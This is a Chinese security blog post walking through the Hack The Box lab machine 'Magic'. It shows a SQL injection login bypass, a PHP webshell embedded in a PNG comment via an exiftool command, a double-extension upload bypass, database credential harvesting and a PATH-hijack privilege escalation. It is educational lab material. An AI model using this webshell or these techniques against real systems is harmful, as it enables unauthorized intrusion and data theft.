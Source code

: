 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/wRKU05-ce4bxfJ6HtqA7Mg)

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **193** 篇文章，本公众号会每日分享攻防渗透技术给大家。

![](https://mmbiz.qpic.cn/mmbiz_gif/ldWFh337rbjfApaRGicR1GGwHDCYPhsKZ9euLodKu0upoCBupGzffThUrZlyL2I0qu4OzmzGg3YQ4JPhJ2UZ18A/640?wx_fmt=gif)

靶机地址：https://www.hackthebox.eu/home/machines/profile/241

靶机难度：中级（4.6/10）

靶机发布日期：2020 年 8 月 22 日

靶机描述：

Magic has two common steps, a SQLI to bypass login, and a webshell upload with a double extension to bypass filtering. From there I can get a shell, and find creds in the database to switch to user. To get root, there’s a binary that calls popen without a full path, which makes it vulnerable to a path hijack attack. In Beyond Root, I’ll look at the Apache config that led to execution of a .php.png file, the PHP code that filtered uploads, and the source for the suid binary.

请注意：对于所有这些计算机，我是通过平台授权允许情况进行渗透的。我将使用 Kali Linux 作为解决该 HTB 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

![](https://mmbiz.qpic.cn/mmbiz_png/ibQV91UPVPA0YraLBxG6SF7hBIMGETWZCPmdut5HSvsfqQz6CtfmOScRtJFM8gtn5LKRiav4DhT1Cxk6YPiaEHZvQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/dphnm0BKfwKLtib9vQ1APuIAKeJtunpQ9t0U2bFm604pdiagpiavfaicU0LSsYk60Ugh838nnFVzywH0z19gB2VMOQ/640?wx_fmt=gif)

一、信息收集

![](https://mmbiz.qpic.cn/mmbiz_png/7phYCjicsxExcHT6Dnz0PPkUycARhia5vV64je93lrrZSxlz64jyGCuicicUC0jAZx4rsG4qsfMwymvib1zwhibQRdaw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMh3fzBfWBYvdbyU9Ug93g3Nhn2WRA2VcMrrYzLz4u6vYzhXJFEj7jaj6iaGdhySibdAHnsLWaySv5w/640?wx_fmt=png)

可以看到靶机的 IP 是 10.10.10.185...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMh3fzBfWBYvdbyU9Ug93g34sqpQLklAYPlialoSibrxYVxjRbE8hcVt0icnaeDq1U3xia9MSMPnn8zpQ/640?wx_fmt=png)

我这里利用 Masscan 快速的扫描出了 22，80 端口，在利用 nmap 详细的扫描了这些端口情况...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMh3fzBfWBYvdbyU9Ug93g3eBm0xZfFh9h7KuK4u1y122xEfia3o0NGojiaU5FThCL0YSm7ULzM9rLg/640?wx_fmt=png)

web 页面包含了很多图片，左下角点击 login 进入了登录页面...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMh3fzBfWBYvdbyU9Ug93g3B8Mfqpj0XAwNta24ibpECwTmgcehOv6GmmIRGAJJQv7TmLOK097feOw/640?wx_fmt=png)

简单的 sql 注入... 成功登录...（

这里不多说了，遇到几十次了... 一模一样的注入）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMh3fzBfWBYvdbyU9Ug93g3ZibEXM3sZ67F3OAqXcmMDQhx0smhKo9yHuOdmY4WicI6WGr6oafSLXYA/640?wx_fmt=png)

登录后是文件上传页面...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMh3fzBfWBYvdbyU9Ug93g3pxYGI7lckuQfLjgd1ZKSiaPtZsTopYoaLtulf4QQXEDfNBfr6qYiclQg/640?wx_fmt=png)

点击 upload image 返回... 必须使文件具有与 jpg，jpeg 或 png 类型的文件才可上传...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMh3fzBfWBYvdbyU9Ug93g3zt1QyjNocsjBrqD900fD2MDInMWxFibUh8ehy3SX7WSpQw3cLO6ibNEw/640?wx_fmt=png)

```
exiftool -Comment='<?php system($_REQUEST['cmd']); ?>' sample.png
https://medium.com/@sebnemK/find-flag-in-image-file-upload-c9bc4975f595
```

google 很多文章写了如何 webshell php png 方法...

随意在 kali 上搜索 png，然后随意利用一张图，注入 webshell 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMh3fzBfWBYvdbyU9Ug93g3mgbfL06mYzkgnwPCNX9GSF4vHNe4kia0ANZZFzLkCFeiaVZ56elcgEPw/640?wx_fmt=png)

成功上传...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMh3fzBfWBYvdbyU9Ug93g3YFjryib0KYkKz5gFvf8NibekhFsH6m3btOv5TTptwDpvz8eh0Nklm35A/640?wx_fmt=png)

发现还是判定此上传文件为 image... 我将 png 改为 php.png 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMh3fzBfWBYvdbyU9Ug93g3UWGHxr9tfwL8QAGIXL1rkqcOALCoDvBh7gaeZcnq0Z4xGmKYpyybrA/640?wx_fmt=png)

成功获得了 shell 特权... 开始提权即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMh3fzBfWBYvdbyU9Ug93g3D1IV4hj2CosXSPLibWvoyfzFTWN681u5gfYHchfDIRUwbfDA0C81weA/640?wx_fmt=png)

很多 shell，随意提... 获得了 www 低权外壳...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMh3fzBfWBYvdbyU9Ug93g3DQuibx2dZ4WKLSm84XAqHLzGdcLBKQibBoHyGWK1O2U05mVSrXyP6qSw/640?wx_fmt=png)

枚举发现存在 db 数据库信息... 查看 db.php5 获得了 theseus 数据库用户账号密码...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMh3fzBfWBYvdbyU9Ug93g3c5ommGibGTcL8IKs8icJX36PWD8ypTIocRpQkgGOKsA1ek8IialzPylJg/640?wx_fmt=png)

直接利用刚获得的用户密码，枚举数据库信息... 直接获得了 admin 用户密码...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMh3fzBfWBYvdbyU9Ug93g3HPgKq12eLMaLYGdeDPZl6m9VZoOQ4l8fr7wnQk98oKCCeU2t50oG9g/640?wx_fmt=png)

尝试成功登录 theseus 用户界面... 并获得了 user_flag 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMh3fzBfWBYvdbyU9Ug93g3uia3yia2ibYdE9LWfVrGuROITVSB3icLtdp85XpibX4ZJjdK0J36UUhpatg/640?wx_fmt=png)

为了方便利用 ssh 登录...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMh3fzBfWBYvdbyU9Ug93g3ahBZvBsqYBrbuPFw50tOOJMibfU7LYP43cbV3pnibyuddEtfCmGhQ6gQ/640?wx_fmt=png)

上传 LinEnum.sh 枚举信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMh3fzBfWBYvdbyU9Ug93g3HuAuDk7XgOfbWKlBYXSOPM7icvst1DcCswKD0iclTClkuicvYHWmo9pVQ/640?wx_fmt=png)

/bin/sysinfo -x 权限很可疑... 查看下...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMh3fzBfWBYvdbyU9Ug93g3jsSqOEXjNrQWC8Wo9fZibqcyu61KgcZeU3WmThHutxUauia1yv1X6LVQ/640?wx_fmt=png)

是一个 64 位的 ELF...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMh3fzBfWBYvdbyU9Ug93g3eR9hvrjAapDomQcQxhuDGQU1MfD3vk9IPSlk4ia0wBDxibYYGXqBRUww/640?wx_fmt=png)

strings 枚举发现二进制程序可利用 lshw，fdisk，cat 和 free 命令，而无需他们的绝对路径... 那这里提权的方法很多了，快速获得 root，或者提权都行...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMh3fzBfWBYvdbyU9Ug93g3rbxUXrZhT3e09jJkzmZYbOGwupBiaUFy76yYrUnJ8cAbuBNuQGJuYOg/640?wx_fmt=png)

创建 shell... 简单操作了... 赋权

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMh3fzBfWBYvdbyU9Ug93g3iaK2s4bc5vtxETqQFar3JuvkLm4lckSUiazF1HPTq6gkALLcAznDlhgg/640?wx_fmt=png)

执行 sysinfo 后，执行了该 shell，这里尝试第二次需要改 fdisk 名称 shell...

![](https://mmbiz.qpic.cn/mmbiz_gif/ldWFh337rbjfApaRGicR1GGwHDCYPhsKZ9euLodKu0upoCBupGzffThUrZlyL2I0qu4OzmzGg3YQ4JPhJ2UZ18A/640?wx_fmt=gif)

成功获得了 root 权限和 root_flag 信息....

该靶机很适合入门的人尝试.... 非常好的入门靶机!

sql 注入 -- 文件上传 -- 注入 shell 利用程序漏洞提权...

这种靶机遇到太多了...

加油！！

由于我们已经成功得到 root 权限查看 user 和 root.txt，因此完成这台中级的靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

随缘收徒中~~ **随缘收徒中~~** **随缘收徒中~~**

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)